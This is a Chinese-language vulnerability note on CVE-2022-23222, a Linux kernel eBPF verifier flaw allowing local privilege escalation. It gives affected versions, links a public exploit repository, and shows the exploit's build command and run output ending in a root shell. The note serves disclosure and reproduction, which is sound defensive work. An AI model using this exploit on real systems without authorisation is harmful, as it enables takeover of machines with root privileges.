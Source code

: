 # Linux eBPF权限提升漏洞 CVE-2022-23222

# Linux eBPF权限提升漏洞 CVE-2022-23222

## 漏洞描述

Linux Kernel 是美国 Linux 基金会发布的开源操作系统 Linux 所使用的内核。Linux 内核是一种开源的类Unix 操作系统宏内核。整个 Linux 操作系统家族基于该内核部署在传统计算机平台（如个人计算机和服务器）。该漏洞是由于 Linux 内核的 BPF 验证器存在一个空指针漏洞，没有对 *_OR_NULL 指针类型进行限制，允许这些类型进行指针运算。攻击者可利用该漏洞在获得低权限的情况下，构造恶意数据执行空指针引用攻击，最终获取服务器 root 权限

## 漏洞影响

```
Linux 5.8 - 5.16（在5.10.92 / 5.15.15 / 5.16.1中修复）
```

## 漏洞复现

Exp：https://github.com/tr3ee/CVE-2022-23222

```
$ make
cc -I include -static -w -o exploit exploit.c
$ ./exploit 
[*] phase(1/8) 'create bpf map(s)' running
[+] phase(1/8) 'create bpf map(s)' done
[*] phase(2/8) 'do some leak' running
[+] phase(2/8) 'do some leak' done
[*] phase(3/8) 'prepare arbitrary rw' running
[+] phase(3/8) 'prepare arbitrary rw' done
[*] phase(4/8) 'spawn processes' running
[+] phase(4/8) 'spawn processes' done
[*] phase(5/8) 'find cred (slow)' running
[+] phase(5/8) 'find cred (slow)' done
[*] phase(6/8) 'overwrite cred' running
[+] phase(6/8) 'overwrite cred' done
[*] phase(7/8) 'spawn root shell' running
[+] Enjoy root!
# id
uid=0(root) gid=0(root) groups=65534(nobody)
# exit
[+] phase(7/8) 'spawn root shell' done
[*] phase(8/8) 'clean up the mess' running
[+] phase(8/8) 'clean up the mess' done
```


